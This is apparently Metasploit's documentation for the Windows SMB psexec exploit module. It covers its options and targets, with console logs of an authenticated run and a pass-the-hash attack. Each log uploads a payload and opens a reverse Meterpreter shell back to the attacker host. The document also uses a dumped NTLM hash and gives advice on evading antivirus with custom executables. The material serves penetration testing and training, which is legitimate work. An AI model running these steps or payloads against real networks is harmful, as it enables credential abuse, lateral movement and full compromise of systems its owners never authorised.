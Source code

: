psexec is one of the most popular exploits against Microsoft Windows. It is a great way to test
password security, and demonstrate how a stolen password could lead to a complete compromise of an
entire corporate network.

The Metasploit Framework actually includes different module types of psexec for different
scenarios. exploit/windows/smb/psexec is the father of them all, and is used the same way
you normally would with any Metasploit exploits.


## Vulnerable Application

To be able to use exploit/windows/smb/psexec, you must meet these requirements:

1. You have a valid username/password.
2. Firewall allows SMB.
2. The remote Windows machine's network security policy allows it. If you see [one of these errors](https://github.com/rapid7/metasploit-framework/wiki/What-does-my-Rex%3A%3AProto%3A%3ASMB-Error-mean%3F), it's an indication it doesn't.

## Verification Steps

Please see Basic Usage under Overview.

## Options

By default, exploit/windows/smb/psexec can be as simple as setting the RHOST option, and ready to
go. But in reality, you will probably need to at least configure:

**The SMBUser Option**

A valid Windows username.

**The SMBPass option**

This can be either the plain text version, or the Windows hash.

## Scenarios

**Typical Usage**

Password stealing is always the first thing in order to use psexec. How you will be able to do that
really depends on the situation. But one thing for sure, if psexec is possible, so should smb_login.

The following shows the basic workflow of using both modules and gain access:

1. use auxiliary/scanner/smb/smb_login (please refer to that module documentation to learn usage)
2. Assuming you have found a good password, use psexec like the following:

```
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set RHOST 192.168.1.80
RHOST => 192.168.1.80
msf exploit(psexec) > set SMBUser Administrator
SMBUser => Administrator
msf exploit(psexec) > set SMBPass goodpass
SMBPass => goodpass
msf exploit(psexec) > exploit

[*] Started reverse TCP handler on 192.168.1.199:4444 
[*] 192.168.1.80:445 - Connecting to the server...
[*] 192.168.1.80:445 - Authenticating to 192.168.1.80:445 as user 'Administrator'...
[*] 192.168.1.80:445 - Selecting native target
[*] 192.168.1.80:445 - Uploading payload...
[*] 192.168.1.80:445 - Created \PTIhqIrQ.exe...
[+] 192.168.1.80:445 - Service started successfully...
[*] 192.168.1.80:445 - Deleting \PTIhqIrQ.exe...
[*] Sending stage (957999 bytes) to 192.168.1.80
[*] Meterpreter session 1 opened (192.168.1.199:4444 -> 192.168.1.80:1042) at 2016-03-01 16:51:56 -0600

meterpreter > 
```

**Pass the Hash**

One common penetration testing scenario with using psexec is that attackers usually begin by
breaking into a box, manage to the dump the hashes, and use some of those hashes to log into
other boxes on the network using psexec. So let's say I'm in that scenario with the following
stolen hash:

```
meterpreter > hashdump
Administrator:500:e39baff0f2c5fd4e93e28745b8bf4ba6:f4974ee4a935ee160a927eafbb3f317f:::
```

Without the need to crack the hash, I can simply copy and paste it to the SMBPass option in
psexec, and get a session:

```
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set SMBUser Administrator
SMBUser => Administrator
msf exploit(psexec) > set SMBPass e39baff0f2c5fd4e93e28745b8bf4ba6:f4974ee4a935ee160a927eafbb3f317f
SMBPass => e39baff0f2c5fd4e93e28745b8bf4ba6:f4974ee4a935ee160a927eafbb3f317f
msf exploit(psexec) > set RHOST 192.168.1.80
RHOST => 192.168.1.80
msf exploit(psexec) > exploit

[*] Started reverse TCP handler on 192.168.1.199:4444 
[*] 192.168.1.80:445 - Connecting to the server...
[*] 192.168.1.80:445 - Authenticating to 192.168.1.80:445 as user 'Administrator'...
[*] 192.168.1.80:445 - Selecting native target
[*] 192.168.1.80:445 - Uploading payload...
[*] 192.168.1.80:445 - Created \QpxKDHyG.exe...
[+] 192.168.1.80:445 - Service started successfully...
[*] 192.168.1.80:445 - Deleting \QpxKDHyG.exe...
[*] Sending stage (957999 bytes) to 192.168.1.80
[*] Meterpreter session 1 opened (192.168.1.199:4444 -> 192.168.1.80:1043) at 2016-03-01 17:02:46 -0600

meterpreter > 
```

**Automatic Target**

exploit/windows/smb/psexec comes with multiple targets available, and Automatic is default. What
happens under the hood is if Powershell is detected on the remote machine, it will try Powershell,
otherwise it uses the natvie upload. Each target is explained below.

**Powershell Target**

The Powershell target forces the psexec module to run a Powershell command with a payload embedded
in it. Since this approach does not leave anything on disk, it is a very powerful way to evade
antivirus. However, older Windows machines might not support Powershell by default.

Ideally, you probably want to use the Automatic target setting instead of this since it will check
if Powershell is possible first.

**Native Upload Target**

By default, the Native target will attempt to upload the payload (executable) to SYSTEM32
(modifiable with the SHARE datastore option) , and then execute it with psexec.

This approach is rather reliable, but has a high chance of getting caught by antivirus on the
target. To counter this, you can try to use a template by setting the EXE::Path and EXE::Template
datastore options. Or, you can supply your own custom EXE by setting the EXE::Custom option.

**MOF Upload Target**

The MOF target technically does not use psexec: it does not explicitly tell Windows to execute
anything. All it does is uploading two files: the payload (exe) in SYSTEM32, and a managed object
format file in SYSTEM32\wbem\mof\ directory. When Windows sees the mof file in that directory, it
automatically runs it. Once executed, the code inside the mof file basically tells Windows to
execute our payload in SYSTEM32, and we get a session.

Although a neat trick, Metasploit's MOF library only works against Windows XP and
Windows Server 2003. And since it does write files to disk, there is also a high chance of getting
caught by antivirus on the target.

The way to counter antivirus is still the same. You can either use a different template by setting
the EXE::Path and EXE::Template datastore options. Or you can supply your own custom EXE by setting
the EXE::Custom option.


